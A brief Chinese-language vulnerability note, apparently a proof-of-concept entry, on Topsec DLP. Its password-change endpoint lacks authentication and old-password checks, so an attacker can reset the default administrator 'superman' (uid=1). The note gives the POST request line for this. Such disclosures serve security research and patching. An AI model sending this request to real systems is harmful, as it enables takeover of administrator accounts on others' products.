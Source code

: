 # 天融信dlp-未授权+越权
管理员登录系统系统之后修改密码，未采用原密码校验，且存在未授权访问导致存在越权修改管理员密码。

    默认用户superman的uid=1
    POST  /?module-auth_user&action=mod_edit.pwd HTTP/1.1